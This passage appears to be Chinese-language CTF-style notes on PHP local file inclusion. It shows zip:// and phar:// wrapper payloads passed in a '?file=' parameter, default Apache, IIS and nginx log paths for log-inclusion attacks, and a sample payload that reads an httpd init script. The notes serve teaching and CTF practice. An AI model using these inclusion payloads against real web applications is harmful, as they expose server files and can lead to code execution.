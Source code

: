 ##### zip://
zip:// 可以访问压缩包里面的文件。  
zip://中只能传入**绝对路径**；要用#分隔压缩包和压缩包里的内容，且#要用url编码**%23**代替
```
?file=zip://D:\file.zip%23flag.txt

1. D:\file.zip表示压缩包的绝对路径
2. 后跟%23分割压缩包和压缩包中要访问的文件名
```

##### phar://

类似zip://，相对路径和绝对路径都可以使用，不管后缀名是什么都会将文件当作压缩包解压
脚本在php反序列化中
```
?file=phar://D:\file.zip\flag.txt    //绝对路径  
?file=phar://file.zip\flag.txt    //相对路径
```


### 包含日志文件

```
apache+Linux日志默认路径   
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/httpd/access_log 
/etc/httpd/logs/access_log 
/etc/httpd/logs/error_log 
/etc/httpd/logs/error.log
```

```
apache+win2003日志默认路径  
D:\xampp\apache\logs\access.log  
D:\xampp\apache\logs\error.log
```

```
IIS6.0+win2003默认日志文件   
C:\WINDOWS\system32\Logfiles
```

```
IIS7.0+win2003 默认日志文件 %SystemDrive%\inetpub\logs\LogFiles
```

```
nginx 日志文件   
用户安装目录logs目录下（/usr/local/nginx/logs）   
/var/log/nginx/access.log
/var/log/nginx/error.log
/usr/local/var/log/nginx/access.log
/usr/local/nginx/logs
```

```
apache+linux 默认配置文件  
/etc/httpd/conf/httpd.conf  
index.php?page=/etc/init.d/httpd
```
